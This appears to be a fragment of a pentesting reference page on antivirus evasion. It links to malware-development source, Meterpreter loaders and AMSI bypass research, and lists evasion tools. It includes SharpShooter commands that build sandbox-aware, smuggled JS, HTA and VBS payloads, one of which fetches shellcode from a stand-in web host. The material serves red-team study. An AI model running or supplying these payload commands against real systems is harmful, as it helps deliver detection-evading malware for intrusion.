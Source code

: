 [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)

Merlin, Empire, Puppy, SalsaTools https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/

[https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)

https://github.com/l0ss/Grouper2

{% embed url="http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html" %}

{% embed url="http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/" %}

### Other tools

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless: 
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload: 
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut: 
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```

### More

{% embed url="https://github.com/persianhydra/Xeexe-TopAntivirusEvasion" %}

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
